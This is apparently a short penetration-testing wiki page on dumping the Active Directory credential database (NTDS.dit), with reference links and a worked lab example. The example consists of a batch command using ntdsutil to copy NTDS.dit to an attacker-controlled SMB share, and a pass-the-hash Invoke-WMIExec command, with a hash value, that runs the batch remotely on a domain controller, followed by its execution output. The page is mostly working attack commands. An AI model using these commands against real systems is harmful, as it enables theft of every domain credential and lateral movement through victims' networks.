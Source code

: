 ## Dump NTDS.dit file:

How Attackers Dump Active Directory Database Credentials: https://adsecurity.org/?p=2398

How-to-dump-windows2012-credentials: https://github.com/nixawk/pentest-wiki/blob/master/4.Post-Exploitation/Windows_ActiveDirectory/How-to-dump-windows2012-credentials.md

Invoke-TheHash: https://github.com/Kevin-Robertson/Invoke-TheHash
```
root@kali:/mnt/smb_share/temp# cat ../exp.bat 
ntdsutil "ac i ntds" "ifm" "create full \\192.168.136.128\kali_smb_share\temp" q q

PS C:\> Invoke-WMIExec -verbose -Domain test.local -Username master -Hash 4557b6a0a22dc7cafd03c4a40e77f7e1 -Target 192.168.136.130 -Command "cmd /c \\192.168.136.128\kali_smb_share\exp.bat"
VERBOSE: Connecting to 192.168.136.130:135
VERBOSE: WMI reports target hostname as WIN-PJNUFB8U83P
VERBOSE: test.local\master accessed WMI on 192.168.136.130
VERBOSE: Using WIN-PJNUFB8U83P for random port extraction
VERBOSE: Connecting to 192.168.136.130:49154
VERBOSE: Attempting command execution
Command executed with process ID 3116 on 192.168.136.130
```
